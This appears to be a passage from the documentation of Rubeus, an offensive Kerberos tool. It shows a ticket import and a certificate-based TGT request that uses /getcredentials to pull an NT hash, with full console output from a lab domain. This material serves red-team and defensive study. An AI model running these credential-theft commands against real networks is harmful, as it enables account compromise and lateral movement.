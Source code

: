         doIFujCCBbagAwIBBaEDAgEWooIEvzCCBL...(snip)...

    [*] Action: Import Ticket
    [*] Target LUID: 0x3c4c241
    [+] Ticket successfully imported!

**Note that the /luid and /createnetonly parameters require elevation!**

Requesting a ticket using a certificate and using `/getcredentials` to retrieve the NT hash:

    C:\Rubeus>Rubeus.exe asktgt /user:harmj0y /domain:rubeus.ghostpack.local /dc:pdc1.rubeus.ghostpack.local /getcredentials /certificate:MIIR3QIB...(snip)...QI/GZmyPRFEeE=

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v2.0.0

    [*] Action: Ask TGT

    [*] Using PKINIT with etype rc4_hmac and subject: CN=Harm J0y, CN=Users, DC=rubeus, DC=ghostpack, DC=local
    [*] Building AS-REQ (w/ PKINIT preauth) for: 'rubeus.ghostpack.local\harmj0y'
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

          doIF9DCCBfCgAwIBBaEDAgEWooIE7DCCBOhhggTkMIIE4KADAgEFoRgbFlJVQkVVUy5HSE9TVFBBQ0su
                                            ...(snip)...
          YnRndBsWcnViZXVzLmdob3N0cGFjay5sb2NhbA==

      ServiceName              :  krbtgt/rubeus.ghostpack.local
      ServiceRealm             :  RUBEUS.GHOSTPACK.LOCAL
      UserName                 :  harmj0y
      UserRealm                :  RUBEUS.GHOSTPACK.LOCAL
      StartTime                :  14/07/2021 02:25:33
      EndTime                  :  14/07/2021 12:25:33
      RenewTill                :  21/07/2021 02:25:33
      Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
      KeyType                  :  rc4_hmac
      Base64(key)              :  7MS2ajfZo4HedoK+K3dLcQ==
      ASREP (key)              :  9B1C28A276FBBE557D0F9EE153FE24E1

    [*] Getting credentials using U2U

      CredentialInfo         :
        Version              : 0
        EncryptionType       : rc4_hmac
        CredentialData       :
          CredentialCount    : 1
           NTLM              : C69A7EA908898C23B72E65329AF7E3E8

